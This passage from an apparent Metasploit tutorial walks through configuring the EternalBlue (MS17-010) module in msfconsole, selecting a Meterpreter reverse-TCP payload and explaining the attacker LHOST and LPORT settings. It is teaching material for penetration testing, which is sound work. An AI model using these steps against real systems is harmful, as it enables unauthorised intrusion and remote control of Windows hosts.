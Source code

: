```shell-session


msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 15

payload => windows/x64/meterpreter/reverse_tcp
```

After selecting a payload, we will have more options available to us.

Payloads

```shell-session
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
```

As we can see, by running the `show payloads` command within the Exploit module itself, msfconsole has detected that the target is a Windows machine, and such only displayed the payloads aimed at Windows operating systems.

We can also see that a new option field has appeared, directly related to what the payload parameters will contain. We will be focusing on `LHOST` and `LPORT` (our attacker IP and the desired port for reverse connection initialization). Of course, if the attack fails, we can always use a different port and relaunch the attack.

